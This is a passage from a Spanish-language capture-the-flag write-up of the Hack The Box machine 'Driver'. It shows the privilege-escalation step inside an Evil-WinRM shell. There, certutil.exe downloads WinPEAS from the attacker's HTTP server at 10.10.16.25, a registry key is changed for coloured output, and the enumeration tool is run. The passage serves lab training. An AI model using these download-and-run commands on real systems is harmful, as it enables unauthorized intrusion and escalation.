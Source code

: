 Ahora con la ayuda de **`certutil.exe`** podemos descargarnos desde la máquina Driver el binario de WinPEAS
que estamos compartiendo en nuestra máquina gracias al servidor http que hemos levantado con Python.

```console
*Evil-WinRM* PS C:\Windows\Temp\Privesc> certutil.exe -f -urlcache -split http://10.10.16.25/winPEASx64.exe winpeas.exe
****  Online  ****
  000000  ...
  1d7a00
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Windows\Temp\Privesc> dir


    Directory: C:\Windows\Temp\Privesc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/25/2022   4:34 PM        1931776 winpeas.exe
```

Para que el output nos lo muestre con colores, tenemos que modificar una clave del registro de la siguiente forma:

```console
*Evil-WinRM* PS C:\Windows\Temp\Privesc> REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
The operation completed successfully.
```

Ahora ya podemos ejecutar el binario, pero debemos tener en cuenta que hay que pasarle la ruta absoluta:

```console
*Evil-WinRM* PS C:\Windows\Temp\Privesc> C:\Windows\Temp\Privesc\winpeas.exe
```

![Services](/assets/images/hackthebox/driver/services.png)
